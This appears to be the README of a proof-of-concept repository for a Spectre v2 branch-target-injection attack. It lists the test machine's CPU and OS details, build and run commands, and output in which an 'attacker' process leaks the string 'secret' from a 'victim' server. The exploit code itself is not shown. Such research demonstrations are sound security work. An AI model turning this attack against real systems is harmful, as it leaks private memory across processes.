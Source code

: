 # About

This repo provides proof-of-concept code that exploits a spectre v2 (branch target injection) vulnerability in a server and demonstrates a cross-process attack.

Original client (attacker) and server (victim) code is from https://www.binarytides.com/server-client-example-c-sockets-linux/. The spectre v2 bits are inspired from https://github.com/vusec/blindside and https://github.com/Anton-Cao/spectrev2-poc.git.

The PoC is tested on the following machine:

```
$ cat /proc/cpuinfo | head -27
processor : 0
vendor_id : GenuineIntel
cpu family  : 6
model   : 158
model name  : Intel(R) Xeon(R) CPU E3-1270 v6 @ 3.80GHz
stepping  : 9
microcode : 0x48
cpu MHz   : 4014.770
cache size  : 8192 KB
physical id : 0
siblings  : 8
core id   : 0
cpu cores : 4
apicid    : 0
initial apicid  : 0
fpu   : yes
fpu_exception : yes
cpuid level : 22
wp    : yes
flags   : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi
mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_tsc art arch_perfmon pebs bts
rep_good nopl xtopology nonstop_tsc aperfmperf eagerfpu pni pclmulqdq dtes64 monitor ds_cpl vmx smx
est tm2 ssse3 sdbg fma cx16 xtpr pdcm pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes
xsave avx f16c rdrand lahf_lm abm 3dnowprefetch epb intel_pt tpr_shadow vnmi flexpriority ept vpid
fsgsbase tsc_adjust bmi1 hle avx2 smep bmi2 erms invpcid rtm mpx rdseed adx smap clflushopt xsaveopt
xsavec xgetbv1 xsaves dtherm ida arat pln pts hwp hwp_notify hwp_act_window hwp_epp
bugs    :
bogomips  : 7600.00
clflush size  : 64
cache_alignment : 64
address sizes : 39 bits physical, 48 bits virtual
power management:

$ uname -a
Linux hecate 4.8.0-39-generic #42-Ubuntu SMP Mon Feb 20 11:47:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 16.04.7 LTS
Release:  16.04
Codename: xenial
```

# Instructions

Preparation:

```
$ make
```

In terminal 1:

```
$ ./victim
obj_normal.buf = aaaaaa
obj_priv.buf = secret
Socket created
bind done
Waiting for incoming connections...
Connection accepted
Client disconnected
```

In terminal 2:

```
$ ./attacker
Socket created
Connected

most hit char: 115 ('s') - 998 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 101 ('e') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char:  99 ('c') - 999 hits;  second most hit char: 207 ('?') -   1 hits
most hit char: 114 ('r') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 101 ('e') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 116 ('t') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char:   0 ('?') - 999 hits;  second most hit char:   1 ('?') -  64 hits
```

